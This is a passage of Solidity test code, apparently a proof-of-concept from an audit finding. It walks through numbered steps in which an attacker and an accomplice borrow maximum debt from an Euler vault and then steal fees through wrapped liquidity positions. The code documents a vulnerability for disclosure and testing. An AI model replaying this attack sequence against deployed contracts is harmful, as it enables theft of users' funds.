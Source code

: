 ```solidity
    wrapper.unwrap(
        accomplice,
        tokenId1,
        accomplice,
        wrapper.balanceOf(accomplice, tokenId1) / 2,
        bytes("")
    );

    // 6. attacker borrows max debt from eVault
    startHoax(attacker);
    evc.enableCollateral(attacker, address(wrapper));
    evc.enableController(attacker, address(eVault));
    eVault.borrow(type(uint256).max, attacker);

    vm.warp(block.timestamp + eVault.liquidationCoolOffTime());

    (uint256 maxRepay, uint256 yield) = eVault.checkLiquidation(liquidator, attacker, address(wrapper));
    assertEq(maxRepay, 0);
    assertEq(yield, 0);

    // 7. simulate attacker becoming partially liquidatable
    startHoax(IEulerRouter(address(oracle)).governor());
    IEulerRouter(address(oracle)).govSetConfig(
        address(wrapper),
        unitOfAccount,
        address(
            new FixedRateOracle(
                address(wrapper),
                unitOfAccount,
                1
            )
        )
    );

    (maxRepay, yield) = eVault.checkLiquidation(liquidator, attacker, address(wrapper));
    assertTrue(maxRepay > 0);

    // 8. accomplice executes fee theft against attacker
    startHoax(accomplice);
    wrapper.unwrap(
        accomplice,
        tokenId2,
        accomplice,
        wrapper.FULL_AMOUNT(),
        bytes("")
    );
    wrapper.unwrap(
        accomplice,
        tokenId2,
        borrower
    );
    startHoax(borrower);
    wrapper.underlying().approve(address(mintPositionHelper), tokenId2);
    increasePosition(poolKey, tokenId2, 1000, type(uint96).max, type(uint96).max, borrower);
    wrapper.underlying().approve(address(wrapper), tokenId2);
    wrapper.wrap(tokenId2, accomplice);
    startHoax(accomplice);
    wrapper.enableTokenIdAsCollateral(tokenId2);
    wrapper.unwrap(
        accomplice,
        tokenId2,
        accomplice,
```